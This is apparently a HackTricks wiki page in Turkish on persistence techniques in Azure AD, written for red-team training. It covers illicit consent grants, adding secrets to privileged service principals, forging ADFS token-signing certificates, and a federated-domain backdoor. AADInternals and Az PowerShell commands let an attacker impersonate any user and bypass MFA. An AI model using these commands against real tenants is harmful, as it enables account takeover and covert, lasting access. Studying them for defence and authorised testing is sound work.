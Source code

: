 # Az - Persistence

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### Yasadışı İzin Verme

Varsayılan olarak, herhangi bir kullanıcı Azure AD'de bir uygulama kaydedebilir. Bu nedenle, yüksek etki izinlerine ihtiyaç duyan (ve eğer admin iseniz onaylayabileceğiniz) bir uygulama kaydedebilirsiniz - örneğin, bir kullanıcının adına mail göndermek, rol yönetimi vb. Bu, başarılı olursa **oltalama saldırıları** gerçekleştirmemizi sağlayacaktır ki bu da çok **verimli** olacaktır.

Ayrıca, bu uygulamayı kullanıcı olarak kabul ederek ona erişimi sürdürmeyi de kabul edebilirsiniz.

### Uygulamalar ve Servis Prensipleri

Uygulama Yöneticisi, GA veya microsoft.directory/applications/credentials/update izinlerine sahip özel bir rol ile, mevcut bir uygulamaya kimlik bilgileri (gizli anahtar veya sertifika) ekleyebiliriz.

**Yüksek izinlere sahip bir uygulamayı hedef almak** veya **yüksek izinlere sahip yeni bir uygulama eklemek** mümkündür.

Uygulamaya eklemek için ilginç bir rol, **Ayrıcalıklı kimlik doğrulama yöneticisi rolü** olacaktır çünkü bu, Küresel Yöneticilerin **şifresini sıfırlama** yetkisi verir.

Bu teknik ayrıca **MFA'yı atlamayı** da sağlar.

{% code overflow="wrap" %}
```powershell
$passwd = ConvertTo-SecureString "J~Q~QMt_qe4uDzg53MDD_jrj_Q3P.changed" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential("311bf843-cc8b-459c-be24-6ed908458623", $passwd)
Connect-AzAccount -ServicePrincipal -Credential $credentials -Tenant e12984235-1035-452e-bd32-ab4d72639a
```
{% endcode %}

* Sertifika tabanlı kimlik doğrulama için

{% code overflow="wrap" %}
```powershell
Connect-AzAccount -ServicePrincipal -Tenant <TenantId> -CertificateThumbprint <Thumbprint> -ApplicationId <ApplicationId>
```
{% endcode %}

### Federation - Token Signing Certificate

On-prem AD üzerinde **DA ayrıcalıkları** ile, çok uzun geçerlilik süresine sahip **yeni Token signing** ve **Token Decrypt sertifikaları** oluşturmak ve içe aktarmak mümkündür. Bu, bildiğimiz herhangi bir kullanıcının ImuutableID'si ile **giriş yapmamıza** olanak tanıyacaktır.

**Aşağıdaki komutu** **ADFS sunucusunda DA olarak** çalıştırarak yeni sertifikalar oluşturun (varsayılan şifre 'AADInternals'), bunları ADFS'ye ekleyin, otomatik yenilemeyi devre dışı bırakın ve hizmeti yeniden başlatın:
```powershell
New-AADIntADFSSelfSignedCertificates
```
Sonra, sertifika bilgilerini Azure AD ile güncelleyin:
```powershell
Update-AADIntADFSFederationSettings -Domain cyberranges.io
```
### Federation - Güvenilir Alan

GA ayrıcalıkları ile bir kiracıda, **yeni bir alan eklemek** mümkündür (doğrulanması gerekir), kimlik doğrulama türünü Federated olarak yapılandırmak ve alanı **belirli bir sertifikaya** (aşağıdaki komutta any.sts) ve vericiye güvenecek şekilde yapılandırmak mümkündür:
```powershell
# Using AADInternals
ConvertTo-AADIntBackdoor -DomainName cyberranges.io

# Get ImmutableID of the user that we want to impersonate. Using Msol module
Get-MsolUser | select userPrincipalName,ImmutableID

# Access any cloud app as the user
Open-AADIntOffice365Portal -ImmutableID qIMPTm2Q3kimHgg4KQyveA== -Issuer "http://any.sts/B231A11F" -UseBuiltInCertificate -ByPassMFA$true
```
## Referanslar

* [https://aadinternalsbackdoor.azurewebsites.net/](https://aadinternalsbackdoor.azurewebsites.net/)

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Eğitim AWS Kırmızı Takım Uzmanı (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Eğitim GCP Kırmızı Takım Uzmanı (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}
